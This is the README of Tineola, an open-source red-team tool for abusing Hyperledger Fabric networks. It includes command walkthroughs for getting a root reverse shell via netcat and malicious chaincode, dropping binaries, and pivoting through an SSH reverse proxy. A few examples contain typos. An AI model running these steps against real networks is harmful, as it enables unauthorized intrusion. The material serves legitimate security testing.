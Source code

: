 # Introducing Tineola
Tineola is a red team tool for interfacing with and abusing **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Travis Biehn, and Koen Buyens.

# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a .tineola-rc file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive commandline application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```
After these commands, the admin user has been enrolled into tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and reciving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.
Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.
Both actions use the "channel-query-cc" tineola command with or without the "--invoke" flag.
Invocation requires an orderer to be set.
Note: invoking requires the endorsment policy to be met, where as querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.
Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the tineola chaincode

Start a tcp listener on the tineola machine (10.0.0.5 in this example)
```
nc -l 31337
```

Use tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container.
This container is a bare ubuntu image.
Use `apt update` and `apt install ...` to download packages if the peer is internet connected.
If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the tineola machine is at 10.0.0.5, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the tineola machine.
An allowed ssh private key should be present at ~/tineola-ssh-key for tineola to use.
Note: make sure to disallow this key after using Tineola.
Tineola makes no effort to encrypt or otherwise hide this key durring or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated ising `ssh-keygen` and installed to ~/.ssh/authorized keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form IP:PORT and is 10.10.0.100:1234 in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to a application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability orginating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (defaukt: localhost:8888).
The format of HTTP requests should be:
```
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The HLF-Invoke header controls whether or not to send the request for ordering.
Then HLF-Invoke is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

# License
This software is released by Synopsys under the MIT license. 